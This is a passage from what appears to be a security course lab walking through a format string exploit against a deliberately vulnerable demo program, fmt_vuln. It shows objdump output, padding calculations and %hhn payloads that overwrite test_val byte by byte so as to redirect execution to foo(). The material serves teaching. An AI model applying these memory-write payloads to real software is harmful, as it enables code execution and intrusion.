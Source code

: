 Now, that we've gotten all that out of the way, let's get down to the
business of writing bytes. First, let's find the address of `foo()`:

``` {.example}
user@si485H-base:demo$ objdump -d fmt_vuln | grep foo
0804852d <foo>:
```

Now we get to work. In the most significant byte, currently we are
writing 0x1b but we need 0x08. This means we have to wrap around. Doing
some math:

``` {.example}
user@si485H-base:demo$ python -c "print (0x100 - 0x1b) + 0x8 + 8"
245
```

We need to write 256 bytes to get to 0x08 when accounting for the 8
bytes we are already writing.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x27\xa0\x04\x08')$(printf '\x26\xa0\x04\x08')$(printf '\x25\xa0\x04\x08')$(printf '\x24\xa0\x04\x08')..%1\$245x.%121\$hhn.%1\$008x.%122\$hhn.%1\$008x.%123\$hhn.%1\$008x.%124\$hhn
Right: '&%$..%1$245x.%121$hhn.%1$008x.%122$hhn.%1$008x.%123$hhn.%1$008x.%124$hhn

Wrong: '&%$..                                                                                                                                                                                                                                             bffff854..bffff854..bffff854..bffff854.

[*] test_val @ 0x804a024 = 0x8121c26
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 080485e0
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 08121c26
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 080486f5
0xbffff66c <ebp-0x1c>: 080485d3
0xbffff668 <ebp-0x20>: bffff688
```

Now we need to write 04 byte we are writing 12, so we use the same
calculation again:

``` {.example}
user@si485H-base:demo$ python -c "print (0x100 - 0x12) + 0x4 + 8"
250
```

Updating our format to do 250 bytes of output:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x27\xa0\x04\x08')$(printf '\x26\xa0\x04\x08')$(printf '\x25\xa0\x04\x08')$(printf '\x24\xa0\x04\x08')..%1\$245x.%121\$hhn.%1\$250x.%122\$hhn.%1\$008x.%123\$hhn.%1\$008x.%124\$hhn
Right: '&%$..%1$245x.%121$hhn.%1$250x.%122$hhn.%1$008x.%123$hhn.%1$008x.%124$hhn

Wrong: '&%$..                                                                                                                                                                                                                                             bffff854..                                                                                                                                                                                                                                                  bffff854..bffff854..bffff854.

```